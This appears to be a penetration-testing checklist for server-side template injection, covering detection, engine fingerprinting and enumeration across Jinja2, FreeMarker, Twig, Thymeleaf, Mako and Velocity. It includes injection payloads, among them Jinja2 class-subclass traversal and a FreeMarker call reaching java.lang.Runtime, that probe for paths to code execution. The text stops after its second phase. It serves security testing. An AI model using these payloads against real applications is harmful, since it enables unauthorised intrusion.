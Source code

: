 # SSTI Testing Checklist for Various Template Engines

## Phase 1: Initial Discovery
1. **Detect Template Injection Points**:
   - Inject basic expressions to see if template syntax is evaluated. Each template engine has different syntax, so try variations:
     - **Jinja2** (Python): `{{7*7}}`, `{{request.__class__}}`
     - **Thymeleaf** (Java): `#{7*7}`
     - **Mako** (Python): `${7*7}`
     - **FreeMarker** (Java): `${7*7}`
     - **Twig** (PHP): `{{7*7}}`
     - **Velocity** (Java): `#set($x = 7*7)`

2. **Identify the Template Engine**:
   - Inject version-specific payloads or syntax and analyze the error messages or responses to determine the template engine:
     ```plaintext
     {{1+1}}  --> Jinja2 or Twig
     ${7*7}   --> FreeMarker or Mako
     #{7*7}   --> Thymeleaf
     ```
   - Review stack traces for template engine references.

---

## Phase 2: Enumeration and Exploration
3. **List Available Variables and Methods**:
   - Explore objects, methods, and data models exposed by the template engine:
     - **Jinja2**: `{{ [].class.base }}`
     - **FreeMarker**: `${.data_model?keys}`
     - **Twig**: `{{ _self.getEnvironment() }}`
     - **Thymeleaf**: `#context.variables`
     - **Velocity**: `#foreach($k in $context.keys()) $k: $context.get($k)`

4. **Check for Access to Dangerous Methods**:
   - Test if you can access classes, objects, or methods that may lead to code execution:
     - **Jinja2**:
       ```python
       {{ config.items() }}
       {{ ''.__class__.__mro__[1].__subclasses__() }}
       ```
     - **FreeMarker**:
       ```freemarker
       ${"".getClass().forName("java.lang.Runtime")}
       ```
     - **Twig**:
       ```php
       {{ constant('php_uname') }}
       ```
